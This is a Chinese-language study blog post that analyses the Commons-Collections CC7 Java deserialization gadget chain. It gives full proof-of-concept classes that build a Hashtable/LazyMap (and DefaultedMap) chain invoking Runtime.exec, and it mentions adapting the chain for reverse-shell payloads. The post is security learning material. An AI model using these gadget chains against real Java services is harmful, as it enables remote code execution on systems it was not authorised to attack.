



---
title: "Java反序列化CC7链"
date: 2025-06-28T20:20:26+08:00
summary: "Java反序列化CC7链"
url: "/posts/Java反序列化CC7链/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

https://infernity.top/2024/04/18/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC7%E9%93%BE/

## 0x01链子分析

和CC5一样，改变了CC1的开头，但LaztMap#get()后半段是一样的

## 0x02版本

jdk：jdk8u65
CC：Commons-Collections 3.2.1

## 0x03链子寻找

那我们找一下能调用get的方法

### AbstractMap#equals

在AbstractMap#equals中

```java
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))	//调用get方法
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

m.get()调用了get方法

### Hashtable#reconstitutionPut()

在Hashtable类的reconstitutionPut中调用了equals方法

```java
    private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {	//调用equals方法
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

### Hashtable#readObject()

在本类的readObject()方法中发现调用了reconstitutionPut方法

```java
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the length, threshold, and loadfactor
        s.defaultReadObject();

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Compute new size with a bit of room 5% to grow but
        // no larger than the original size.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)(elements * loadFactor) + (elements / 20) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        if (origlength > 0 && length > origlength)
            length = origlength;
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // synch could be eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

## 0x04POC编写

我们先看一下equals方法

```java
    public boolean equals(Object o) {
        
        //判断是否为同一对象
        if (o == this)
            return true;
        
        //判断运行类型是否不是map
        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        
        //判断HashMap的元素的个数size
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                
                //判断如果value为null，则判断key
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    //如果value不为null，判断value内容是否相同
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

如果要进入get方法的话需要先经过三个if语句的判断

```java
if (o == this)	//判断o是否为对象本身
    return true;

if (!(o instanceof Map))	//判断类型是否是Map类型
    return false;
Map<?,?> m = (Map<?,?>) o;	//将对象 o 强制转换为泛型类型为未知类型的 Map
if (m.size() != size())	//判断Map的元素的个数size
    return false;
```

往后看可以发现，当以上三个判断都不满足的情况下，则进一步判断Map中的元素，也就是判断元素的key和value的内容是否相同，在value不为null的情况下，m会调用get方法获取key的内容。虽然对象o强制成Map类型，但是m对象本质上是一个LazyMap。因此m对象调用get方法时实际上是调用了LazyMap的get方法。

我们看看readObject方法

```java
private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
    // Read in the length, threshold, and loadfactor
    s.defaultReadObject();

    // 读取table数组的容量
    int origlength = s.readInt();
    //读取table数组的元素个数
    int elements = s.readInt();

    //计算table数组的length
    int length = (int)(elements * loadFactor) + (elements / 20) + 3;
    if (length > elements && (length & 1) == 0)
        length--;
    if (origlength > 0 && length > origlength)
        length = origlength;
    //根据length创建table数组
    table = new Entry<?,?>[length];
    threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
    count = 0;

    //反序列化，还原table数组
    for (; elements > 0; elements--) {
        @SuppressWarnings("unchecked")
            K key = (K)s.readObject();
        @SuppressWarnings("unchecked")
            V value = (V)s.readObject();
        reconstitutionPut(table, key, value);
    }
}
```

貌似没什么需要注意的

再来看看reconstitutionPut方法

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value) throws StreamCorruptedException {
	//value不能为null
       if (value == null) {
           throw new java.io.StreamCorruptedException();
       }

	//重新计算key的hash值
       int hash = key.hashCode();
	//根据hash值计算存储索引
       int index = (hash & 0x7FFFFFFF) % tab.length;
	//判断元素的key是否重复
       for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
		//如果key重复则抛出异常
           if ((e.hash == hash) && e.key.equals(key)) {
               throw new java.io.StreamCorruptedException();
           }
       }
       //key不重复则将元素添加到table数组中
       @SuppressWarnings("unchecked")
           Entry<K,V> e = (Entry<K,V>)tab[index];
       tab[index] = new Entry<>(hash, key, value, e);
       count++;
   }
```

reconstitutionPut方法首先对value进行不为null的校验，否则抛出反序列化异常

然后根据key计算出元素在table数组中的存储索引，判断元素在table数组中是否重复，这里的话会调用equals方法

CC7利用链的漏洞触发的关键就在reconstitutionPut方法中，该方法在判断重复元素的时候校验了两个元素的hash值是否一样，然后接着key会调用equals方法判断key是否重复时就会触发漏洞。

所以我们不难看出，在Hashtable中的元素至少为2个并且元素的hash值也必须相同的情况下才会调用equals方法，否则不会触发漏洞。

那么我们就需要创建两个Map对象

```java
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();

        Map LazyMap1=LazyMap.decorate(hashMap1,chainedTransformer);
        LazyMap1.put("aa",1);
        Map LazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
        LazyMap2.put("bb",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(LazyMap1,1);
        hashtable.put(LazyMap2,1);
```

这里需要注意一个点，那就是在反序列化时，reconstitutionPut方法中的if判断中两个元素的hash值必须相同的情况下，才会调用eauals方法。

infer师傅这里给出两组hash相同的值：

```
yy与zZ
Ea与FB
```

我们写个POC

```java
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();

        Map LazyMap1=LazyMap.decorate(hashMap1,chainedTransformer);
        LazyMap1.put("zZ",1);
        Map LazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
        LazyMap2.put("yy",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(LazyMap1,1);
        hashtable.put(LazyMap2,1);
```

在**hashtable.put(LazyMap2,1)处**打断点调试一下



此时的key是lazyMap2对象，而lazyMap2实际上调用了AbstractMap抽象类的equals方法，equals方法内部会调用lazyMap2的get方法判断table数组中元素的key在lazyMap2是否已存在，如果不存在，transform会把当前传入的key返回作为value，然后lazyMap2会调用put方法把key和value（yy=yy）添加到lazyMap2。

```java
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```



当在反序列化时，reconstitutionPut方法在还原table数组时会调用equals方法判断重复元素，由于AbstractMap抽象类的equals方法校验的时候更为严格，会判断Map中元素的个数，由于lazyMap2和lazyMap1中的元素个数不一样则直接返回false，那么也就不会触发漏洞。

因此在构造CC7利用链的payload代码时，Hashtable在添加第二个元素后，lazyMap2需要调用remove方法删除元素yy才能触发漏洞。

```java
lazyMap2.remove("yy");
```

所以我们最终的POC是

### POC

```java
package POC.CC7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer =  new ChainedTransformer(transformers);

        //CC7链的开始
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();

        Map LazyMap1=LazyMap.decorate(hashMap1,chainedTransformer);
        LazyMap1.put("yy",1);
        Map LazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
        LazyMap2.put("zZ",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(LazyMap1,1);
        hashtable.put(LazyMap2,1);
        LazyMap2.remove("yy");

        serialize(hashtable);
        unserialize("CC7.txt");
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC7.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```

但是这里往往在利用的时候例如我们需要生成反弹shell的序列化字符串的时候，往往会因为put方法的提前触发而导致后面进行base64编码无法进行，所以还是用之前的方法，先放一个空的Transformer，再换回去

```java
package SerializeChains.CCchains.CC7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.functors.ChainedTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        //CC7链的开始
        //使用Hashtable来构造利用链调用LazyMap
        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(hashMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(hashMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 1);

        //输出两个元素的hash值
        System.out.println("lazyMap1 hashcode:" + lazyMap1.hashCode());
        System.out.println("lazyMap2 hashcode:" + lazyMap2.hashCode());


        //iTransformers = transformers（反射）
        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        serialize(hashtable);
        unserialize("CC7.txt");
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC7.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


## 0x05补充链

后面做题的时候又发现一条野生链

```
Hashtable#readObject() 触发 DefaultedMap#equals() → 调用 transformer
```

先给poc，后面再补充上

### POC2

```java
package SerializeChains.CCchains.CC7;


import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7plus {
    /*
     * Hashtable#readObject() 触发 DefaultedMap#equals() → 调用 transformer，适用于commons-collections4
     * */
    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        //CC7链的开始
        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap1 = declaredConstructor.newInstance(hashMap1, transformerChain);
        DefaultedMap defaultedMap2 = declaredConstructor.newInstance(hashMap2, transformerChain);
        defaultedMap1.put("yy", 1);
        defaultedMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(defaultedMap1, 1);
        hashtable.put(defaultedMap2, 1);

        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        defaultedMap2.remove("yy");
        serialize(hashtable);
        unserialize("CC7plus.txt");
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC7plus.txt"));
        oos.writeObject(object);
        oos.close();
    }
    //将序列化字符串转为base64
//    public static void serialize(Object object) throws Exception{
//        ByteArrayOutputStream data = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(data);
//        oos.writeObject(object);
//        oos.close();
//        System.out.println(Base64.getEncoder().encode(data.toByteArray()));
//    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```


## CC链总结

到此的话CC链的7条链子也算是学完了，我学的比较慢， 总是担心记不住知识点，总会多花时间返回去看笔记然后才开始学新的知识点，陆陆续续花费了差不多大半个月的时间，也算是比较慢的了，但总体来说审链子的时候还是学到了很多东西的，这里放infer师傅的一个CC链的思维导图


